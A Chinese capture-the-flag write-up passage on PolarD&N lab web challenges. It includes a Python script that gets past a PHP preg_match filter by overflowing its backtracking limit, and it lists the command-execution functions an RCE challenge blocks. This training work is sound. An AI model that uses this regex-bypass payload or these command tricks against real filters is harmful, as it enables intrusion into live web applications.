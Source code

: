 ```
```

这段代码的重点是如何同时绕过pre_match和strpos函数，一个不让匹配到，一个又要匹配到。这里就涉及到一个回溯问题，就是pre_match函数处理的字符长度有限，如果超过这个长度就会返回false也就是没有匹配到。利用利用下面的代码进行回溯，让pre_match函数报错，绕过该函数，这样strpos函数就可以顺利的匹配到我们的字符串从而输出flag

```
import requests
data = {"xdmtql": "sys nb" + "aaaaa" * 1000000}
res = requests.post('http://9d843e14-9320-4bf0-ab03-cecd33daf911.www.polarctf.com:8090/', data=data, allow_redirects=False)
print(res.content)

```

在kali中运行脚本

![image-20240123171103198](照片/image-20240123171103198.png)

得到flag

![image-20240123171020275](照片/image-20240123171020275.png)

------

### 简单rce

polarD&N靶场web部分
一、简单rce
登陆页面，

![image-20240123171826957](照片/image-20240123171826957.png)

简单分析，过滤了以下命令

```
cat|more|less|head|tac|tail|nl|od|vim|uniq|system|proc_open|shell_exec|popen|
```

需要get传入sys参数，post传入“yyds=666”
